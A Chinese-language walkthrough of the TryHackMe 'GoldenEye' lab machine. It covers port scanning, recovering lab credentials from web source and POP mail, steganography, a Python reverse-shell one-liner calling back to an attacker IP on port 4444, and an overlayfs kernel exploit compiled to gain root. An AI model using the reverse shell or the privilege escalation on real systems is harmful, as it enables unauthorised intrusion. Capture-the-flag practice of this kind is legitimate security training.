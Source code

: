 ```yaml
---
sidebar_position: 95
tags: [Easy, Linux, 密码破解-账户, CVE]
title: GoldenEye
description: GoldenEye
sidebar_label: GoldenEye
slug: /tryhackme/95
---
```

# GoldenEye
## 端口扫描

```bash
root@ip-10-10-179-59:~/goldeneye# nmap -sTCV -p 25,80,55006,55007 --min-rate 1000 10.10.138.44

Starting Nmap 7.60 ( https://nmap.org ) at 2023-09-17 13:18 BST
Nmap scan report for ip-10-10-138-44.eu-west-1.compute.internal (10.10.138.44)
Host is up (0.00018s latency).

PORT      STATE SERVICE  VERSION
25/tcp    open  smtp     Postfix smtpd
|_smtp-commands: ubuntu, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
| ssl-cert: Subject: commonName=ubuntu
| Not valid before: 2018-04-24T03:22:34
|_Not valid after:  2028-04-21T03:22:34
|_ssl-date: TLS randomness does not represent time
80/tcp    open  http     Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: GoldenEye Primary Admin Server
55006/tcp open  ssl/pop3 Dovecot pop3d
|_pop3-capabilities: SASL(PLAIN) PIPELINING USER CAPA AUTH-RESP-CODE RESP-CODES UIDL TOP
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2018-04-24T03:23:52
|_Not valid after:  2028-04-23T03:23:52
|_ssl-date: TLS randomness does not represent time
55007/tcp open  pop3     Dovecot pop3d
|_pop3-capabilities: SASL(PLAIN) STLS UIDL TOP USER CAPA AUTH-RESP-CODE PIPELINING RESP-CODES
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2018-04-24T03:23:52
|_Not valid after:  2028-04-23T03:23:52
|_ssl-date: TLS randomness does not represent time
MAC Address: 02:F0:90:01:90:83 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.43 seconds
```
## 80
访问 80 端口, 其告诉我前往另一个目录 /sev-home/ , 当我们访问此目录时发现需要密码进行登陆, 返回初始网页分析其中 JS 源码我获取到了一些内容:

- 用户: Boris  Natalya
- 一个编码后的密码 : InvincibleHack3r (解码后的内容)

使用这个密码登陆后, 显示的网页告诉我他们将 pop 端口提高了, 那么现在我们应该尝试获取 pop 服务的密码, 进行暴力破解

## 55007
![20240703223110](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703223110.png)

![20240703223116](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703223116.png)

从上面的内容中, 我们得到了两个账号:

- boris:secret1!
- natalya:bird

在我阅读 natalya 的邮件时, 其告诉我一个账号以及一个域名, 看内容这应该是某个服务之类的内容, 所以我进行了访问

![20240703223129](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703223129.png)

## 80
修改我们的 hosts 文件使用得到的凭证进行访问, 在登陆之后我获取到了另一个用户的用户名: doak , 继续进行暴力破解

![20240703223220](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703223220.png)

登陆此用户的 pop 服务, 在其中获取到了另一个用户名和密码 dr_doak:4England! , 接着进行访问, 同时在此用户的家目录我发现了一个凭证文件

```bash
root@ip-10-10-179-59:~/goldeneye# cat s3cret.txt 
007,

I was able to capture this apps adm1n cr3ds through clear txt. 

Text throughout most web apps within the GoldenEye servers are scanned, so I cannot add the cr3dentials here. 

Something juicy is located here: /dir007key/for-007.jpg

Also as you may know, the RCP-90 is vastly superior to any other weapon and License to Kill is the only way to play.
```

其指向了一个文件,.这应该存在文件隐写术, 当我将其下载后使用 exiftool 从中发现一段 base64 加密的内容 [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9+/=',true,false)&input=ZUZkcGJuUmxjakU1T1RWNElRPT0), 解密之后得到了一个密码, 根据我们的 txt 内容提示的信息来看, 这很有可能是 admin 用户的密码, 接着登陆, 在登陆之后根据题目的提示, 我们需要使用一个编辑器漏洞

## 后渗透
### www-data
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.151.223",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

![20240703223304](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703223304.png)

然后我们在本地开启监听

![20240703223314](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703223314.png)

![20240703223320](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703223320.png)

### www-data —> root
查看系统版本发现比较落后, 所以进行查找发现了一个利用方式 [Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation](https://www.exploit-db.com/exploits/37292)当我们下载后, 系统并没有 gcc , 根据提示告诉我们仅仅修改了一个字母, 接着我发现了 cc 程序, 这应该就是我们的 gcc 了, 因此我们需要对我们的脚本进行一些修改

```bash
(remote) www-data@ubuntu:/tmp$ sed -i "s/gcc/cc/g" root.c   
(remote) www-data@ubuntu:/tmp$ cc root.c -o root
(remote) www-data@ubuntu:/tmp$ chmod +x root
(remote) www-data@ubuntu:/tmp$ id     
uid=33(www-data) gid=33(www-data) groups=33(www-data)
(remote) www-data@ubuntu:/tmp$ ./root 
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```


